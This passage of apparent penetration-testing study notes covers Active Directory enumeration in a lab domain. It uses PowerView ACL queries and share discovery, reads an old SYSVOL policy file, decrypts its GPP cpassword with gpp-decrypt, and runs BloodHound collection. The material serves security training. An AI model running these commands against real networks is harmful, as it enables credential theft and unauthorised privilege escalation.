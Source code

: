 ```pwsh
Get-ObjectAcl -Identity stephanie
```

The **ActiveDirectoryRights** property describes the type of permission applied to the object. To find out who has the permission, we need to convert the **SecurityIdentifier** value.

```pwsh
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
```

Filter the ActiveDirectoryRights property

```pwsh
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104" | Convert-SidToName
```

```pwsh
Find-InterestingDomainAcl | select identityreferencename,activedirectoryrights,acetype,objectdn | ?{$_.IdentityReferenceName -NotContains "DnsAdmins"} | ft
```

**SYSVOL** is typically used for various domain policies and scripts. By default, the SYSVOL folder is mapped to `%SystemRoot%\SYSVOL\Sysvol\domain-name` on the domain controller and every domain user has access to it.

Historically, system administrators often changed local workstation passwords through **Group Policy Preferences** (GPP). However, even though GPP-stored passwords are encrypted with AES-256, the private key for the encryption has been posted on MSDN. We can use this key to decrypt these encrypted passwords.

Find the shares in the domain, add the `-CheckShareAccess` flag to display shares only available to us

```pwsh
Find-DomainShare
```

Older domain policy file contains an encrypted password for the local built-in Administrator account (cpassword)

```pwsh
ls \\dc1.corp.com\sysvol\corp.com\
cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
```

Decrypts a given GPP encrypted string

```bash
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

## Active Directory - Automated Enumeration

```pwsh
Import-Module .\Sharphound.ps1

Get-Help Invoke-BloodHound

Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "corp"
```
